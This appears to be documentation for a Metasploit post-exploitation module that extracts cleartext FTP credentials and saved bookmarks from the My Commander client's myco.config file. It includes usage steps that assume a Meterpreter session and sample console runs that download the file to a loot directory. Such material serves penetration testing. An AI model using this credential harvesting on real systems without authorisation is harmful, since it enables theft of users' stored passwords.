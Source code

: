 ## Vulnerable Application

This post-exploitation module extracts clear text credentials from the My Comander FTP Client.

The My Commander FTP Client is avaialble from (https://myco.yonan.ro/).

This module extracts information from the myco.config file in the "AppData\Local\Yonan Research" directory.

This module extracts saved bookmarks.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/mycommander_ftp
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files
which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined
regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Scenarios
### My Commander Client v4.0 on Windows 10 Home 10.0.19045 N/A Build 19045 Default
```
msf6 post(windows/gather/credentials/mycommander_ftp) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] My commander's Myco.config file found
[*] Downloading C:\Users\test\AppData\Local\Yonan Research\My Commander\myco.config
[*] My commander Myco.config downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240510165005_default_10.0.0.2_MyCommandermyco_391438.config

[*] undefined method `each' for nil:NilClass
[*] PackRat credential sweep Completed
[*] Post module execution completed
```

### My Commander Client v4.0 on Windows 10 Home 10.0.19045 N/A Build 19045 Default
```
msf6 post(windows/gather/credentials/mycommander_ftp) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Starting Packrat...
[-] My commander's base folder not found in user's user directory

[*] Starting Packrat...
[*] My commander's base folder found
[*] Found the folder containing specified artifact for myco.config.
[*] My commander's Myco.config file found
[*] Processing C:\Users\test\AppData\Local\Yonan Research\My Commander
[*] Downloading C:\Users\test\AppData\Local\Yonan Research\My Commander\myco.config
[*] My commander Myco.config downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240510165029_default_10.0.0.2_MyCommandermyco_977628.config

[*] undefined method `each' for nil:NilClass
[*] PackRat credential sweep Completed
[*] Post module execution completed
```
